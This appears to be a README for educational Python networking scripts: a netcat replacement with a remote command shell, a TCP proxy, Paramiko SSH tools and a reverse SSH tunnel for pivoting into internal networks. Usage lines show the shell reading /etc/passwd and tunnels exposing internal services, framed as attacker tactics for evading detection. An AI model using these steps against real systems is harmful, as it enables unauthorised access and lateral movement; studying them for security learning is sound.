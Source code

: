 # TCP servers, shells and proxies

In some cases, being able to create our own TCP servers for writing command shells or crafting a proxy brings us the advantage.

## Netcat replacement

Netcat is the utility knife of networking, so it is no surprise that systems administrators remove it from their systems. [Such a useful tool](netcat.py) would be quite an asset if an attacker managed to find a way in.

First terminal (server):

    $ python netcat.py -t 192.168.122.108 -p 5555 -l -c                  
    [*] Listening on 192.168.122.108:5555
    [*] Connection from ('192.168.122.108', 38332)
    [*] Running command "cat /etc/passwd"
    [*] Output: b'root:[...]

Second terminal (client):

    $ python netcat.py -t 192.168.122.108 -p 5555
    Go for it!
    netcatsh > 
    cat /etc/passwd
    root:[...]
    
## TCP Proxy

There are many reasons to have a [TCP proxy](proxy.py) in our tool belt: forwarding traffic to bounce from host to host, or for assessing network-based software.

usage: proxy.py [-h] [-c CLIENT] [-o CLIENTPORT] -t TARGET -p TARGETPORT
                [-r RECEIVE_FIRST]
proxy.py: error: the following arguments are required: -t/--target, -p/--port

Note: Use sudo with port 21 because it is a privileged port, so listening on it
requires administrative or root privileges.

## SSH server and client

It can be wise to encrypt traffic to avoid detection using Secure Shell (SSH). The target may not have an SSH client (Windows systems usually do not).

With Python, raw sockets and some crypto magic can be used to create an SSH client and server. The Paramiko library uses PyCrypto, and provides simple access to the SSH2 protocol.

These scripts ([ssh_server.py](ssh_server.py) and [ssh_client.py](ssh_client.py)) are for learning to use Paramiko to make a connection and run a command on an SSH system, configure an SSH server and SSH client to run remote commands on a Windows machine, and puzzle out the reverse tunnel demo file included with Paramiko to duplicate the proxy.py option made earlier (also in this directory).

On one machine (for example a Windows machine) start the server:

    $ python ssh_server.py
    [+] Listening for connection ... 

On another machine start up the client:

    $ python ssh_client.py
    Password:

## SSH Proxy

Imagine having remote access to an SSH server on an internal network, but no direct access to the web server on the same network. The server with SSH installed does have access, but this SSH server doesn’t have the tools we'd like to use.

One way to overcome this problem is to set up a forward SSH tunnel.

    ssh -L 8008:web:80 username@sshserver

Alas, not many Windows systems are running an SSH server service. Instead, configure a reverse SSH tunneling connection: Set up an [SSH server](ssh_server.py) on attack machine and connect back to it from the Windows [SSH client](ssh_client.py) and through that SSH connection, specify a remote port on the SSH server that gets tunneled to the local host and port.

These then can be used to expose port 3389 to access an internal system using Remote Desktop or to access another system that the Windows client can access (like the web server).

The Paramiko demo files include a file called `rforward.py` that does exactly this (transport mode of Paramiko).

Run `rforward.py` from the Windows system and configure it to be the middleman to be able to tunnel traffic from a web server to the Kali SSH server.

    python rforward.py [SSH server address] -p 8081 -r [Web server address]:3000 --user=tim --password
    Enter SSH password:
    Connecting to ssh host [SSH server address]:22 . . .
    Now forwarding remote port 8081 to [Web server address]:3000 . . .
    
Now browse to http://127.0.0.1:8081 on the Linux server, and connect to the web server at
192.168.1.207:3000 through the SSH tunnel.

Flip back to the Windows machine to see the connection being made in Paramiko:

    Connected! Tunnel open ('127.0.0.1', 54690) -> ('SSH server address', 22) -> ('Web server address', 3000)
